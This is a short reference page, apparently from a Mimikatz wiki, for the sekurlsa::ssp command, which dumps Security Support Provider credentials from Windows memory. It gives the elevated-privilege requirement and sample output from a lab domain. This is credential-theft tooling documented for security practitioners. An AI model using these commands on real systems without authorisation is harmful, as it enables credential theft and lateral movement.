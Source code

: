 # ssp

`sekurlsa::ssp` lists [Security Support Provider](https://docs.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture) (SSP) credentials.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::ssp

Authentication Id : 0 ; 697146 (00000000:000aa33a)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 10/17/2021 4:22:01 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427
        ssp :
```
